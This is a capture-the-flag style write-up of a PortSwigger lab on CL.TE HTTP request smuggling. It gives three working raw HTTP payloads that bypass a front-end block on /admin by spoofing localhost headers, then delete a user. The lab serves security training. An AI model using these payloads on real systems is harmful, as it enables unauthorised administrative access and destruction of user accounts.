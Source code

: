 
# Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.

Note: Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.


---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling/exploiting



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls,%20CL.TE%20vulnerability/1.png)

---------------------------------------------

We can use a previous payload to find it is possible to redirect to /404:

```
POST / HTTP/1.1
...
Content-Length: 66
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404/ HTTP/1.1
Content-Length: 3

a
```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls,%20CL.TE%20vulnerability/2.png)


To access /admin it is necessary to add the header “Host: localhost”:

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /admin/ HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: localhost
Content-Length: 3

a
```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls,%20CL.TE%20vulnerability/3.png)


And then delete the user:

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 135
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /admin/delete?username=carlos HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: localhost
Content-Length: 3

a
```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls,%20CL.TE%20vulnerability/4.png)